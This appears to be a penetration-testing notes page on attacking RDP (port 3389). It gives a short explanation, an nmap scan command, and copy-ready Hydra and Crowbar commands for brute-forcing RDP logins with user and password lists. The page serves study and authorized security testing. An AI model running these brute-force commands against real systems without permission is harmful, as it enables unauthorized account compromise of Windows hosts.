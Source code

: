 # 3389 - RDP

## Theory

The remote desktop protocol is the common application used to connect remotely to Windows operating systems. If enabled on the remote host, users can connect to the graphical user interface of the Windows host. Take note that the RDP server will listen on port 3389 to get the job done.



***

## Practical

### Nmap Scan

```
nmap ‐sV ‐sC ‐O ‐T5 ‐p 3389 <IP>
```

### Brute Force

#### Hydra

```
hydra -L <user list> -P <password list> rdp://<IP>

hydra -l "Administrator" -P ~/Desktop/users.txt rdp://<IP>
```

<figure><img src="../../../.gitbook/assets/image (209).png" alt=""><figcaption><p>Hydra Output</p></figcaption></figure>

#### Crowbar

```
# Install Crowbar
sudo apt install crowbar

# Brute force
crowbar ‐b rdp ‐s 172.16.0.104/32 ‐u admin ‐C /root/pass.txt
```

<figure><img src="../../../.gitbook/assets/image (210).png" alt=""><figcaption><p>Crowbar Output</p></figcaption></figure>



***

## REFERENCES

* [https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp)
* [https://www.hackingarticles.in/remote-desktop-penetration-testing-port-3389/](https://www.hackingarticles.in/remote-desktop-penetration-testing-port-3389/)
* [https://exploit-notes.hdks.org/exploit/windows/protocol/rdp-pentesting/](https://exploit-notes.hdks.org/exploit/windows/protocol/rdp-pentesting/)
* [https://hacktricks.boitatech.com.br/pentesting/pentesting-rdp](https://hacktricks.boitatech.com.br/pentesting/pentesting-rdp)

